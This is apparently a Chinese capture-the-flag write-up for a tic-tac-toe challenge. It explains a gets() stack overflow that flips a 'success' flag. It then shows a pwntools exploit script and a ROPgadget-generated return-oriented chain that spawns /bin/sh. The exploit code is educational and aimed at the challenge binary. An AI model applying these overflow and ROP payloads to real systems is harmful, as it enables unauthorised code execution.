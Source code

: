 # 生活在博弈树上

很明显这道题题面是根据 2020 年浙江的满分高考作文《生活在树上》魔改而来的，没有任何逻辑性可言的版本。打开题目后，就会发现它其实是一个井字棋，并且在算法（Minimax）实现正确的情况下，后手的人类是赢不了先手的电脑的。

既然是信息安全大赛，那肯定要用信息安全的思路去解题。如果用 CTF 的方式去分类的话，这应该算是一道典型的简单 pwn（二进制漏洞利用）题了。

## 始终热爱大地

打开源代码读过代码，我们就能轻易发现一个很危险的信号：

```c
printf("Your turn. Input like (x,y), such as (0,1): ");
gets(input);
x = input[1] - '0';
y = input[3] - '0';
```

尽管很多初学 C 语言的同学会使用 `gets()` 去读取一行字符串（至少我所观察到很多没有编程基础初学 C 语言的大一新生会这么做，因为确实“很方便”），但是这个函数是非常危险的：它不会限制输入的长度，可以构造出长度大于接受输入的数组长度的字符串，从而实现一些“意料之外”的事情。1988 年，知名的 [Morris Worm](https://en.wikipedia.org/wiki/Morris_worm) 就通过[利用程序 `figure` 中使用 `gets()` 获取输入的问题](http://www.cs.unc.edu/~jeffay/courses/nidsS05/attacks/seely-RTMworm-89.html#p4.5.2)，对当时互联网上的机器带来了巨大的破坏。

为了获得第一个 flag，我们的目标是让程序运行 `success` 分支，输出 flag。正常下井字棋是肯定赢不了的（除非我代码写错了 :)），那么我们就需要在程序运行时想办法让 `success` 的值变为 `true` (1)，然后就能立刻跳出 `while` 循环而胜利。可以注意到，在变量定义的时候，`success` 就贴在 `input` 数组的旁边。

```c
bool success = false;  // human wins?
char input[128] = {};  // input is large and it will be ok.
```

那么我们能不能在 `gets` 的时候，就把 `success` 弄成 `true` 呢？对于本题给出的二进制程序文件，答案是可以的！（视编译器、编译选项的不同，这个答案可能会发生变化，所以要以给定的二进制文件为准）

### 分析

为了判断栈上 `input` 和 `success` 这两个变量的位置，我们需要使用调试工具，或者反编译工具去判断。这里以 IDA 为例。

![Variables on stack](README.assets/1.png)

可以看到，变量 `input` 距离栈帧基址 (BP) 有 0x90 bytes，变量 `success` 距离栈帧基址有 0x1 bytes，所以输入 143 个字符之后，输入值为 0x1 的字符（注意，不是 `'1'`），将 `success` 覆盖为 `true` (1) 即可。

怎么发送自己的 payload 呢？方法有很多，对于 pwn 类型的题目来说，最常用的工具是 pwntools。

```python
from pwn import *

context.log_level = "debug"
io = process("./tictactoe")

payload = "(2,2)" + (143 - 5) * 'a' + "\x01"
io.recvuntil("): ")
io.sendline(payload)
io.interactive()
```

如果需要发送 payload 到服务器，需要把 `io` 修改到 `io = remote(ip, port)` 的格式，并且加上处理 token 的代码。


## 升上天空

第一题的 flag 提示我们要 getshell 得到第二个 flag。使用 `checksec` 和 `file` 检查程序文件。

```shell
$ checksec -f tictactoe
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   1891 Symbols    Yes     14              55      tictactoe
$ file tictactoe
tictactoe: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=669c2d3e3b669e5d05e627b3c94640234927e172, not stripped
```

我们可以看到：

- NX enabled，表明可以被程序写入的内存页是不可执行的。也就是说，我们不能直接用 `gets()` 在栈上放置可执行的 shellcode，然后让程序去执行。
- Canary found，说明程序中有函数有 canary（但是如果去看 `main()` 的汇编就能发现，`main()` 是没有 canary 的），结合 `file` 输出 `statically linked`，这里的 canary 提示可能是被静态链接入程序的 C 库引入的。
- NO PIE，意味着没有地址随机化，我们不需要考虑动态获取地址的问题。

所以考虑使用 ROP 来获取服务器的 shell。由于这个程序是静态链接的，被链接的 C 库中就包含了很多可以被利用的 gadgets，所以考虑使用 ROPgadget 来自动生成 payload。

ROPgadget 生成的 payload 前面需要加上 padding，使得 payload 能够正好从函数返回地址开始覆盖。从上图我们可以看到，为了从 r（返回地址）开始，我们的 padding 长度应该是 0x8 - (-0x90) = 152。（s 代表是保存的寄存器等调用者函数的现场）

### exp

```shell
$ ROPgadget --binary tictactoe --ropchain
（中间的输出省略）
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''

p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x000000000043e52c) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004017b6) # pop rdi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x000000000043dbb5) # pop rdx ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000402bf4) # syscall
```

```python
from struct import pack
from pwn import context, process

context.log_level = "debug"
io = process("./tictactoe")

payload = b"(2,2)" + (143 - 5) * b'a' + b"\x01" + (152 - 144) * b'a'
# 省略重复的 payload 部分。
# 注意在 Python 3 中 struct.pack 返回的是 bytes 类型，所以为了拼接，payload 也需要是 bytes 类型。
io.recvuntil("): ")
io.sendline(payload)
io.interactive()
```

## 附录

题目文案使用 <https://github.com/BeautyYuYanli/full-mark-composition-generator> 生成。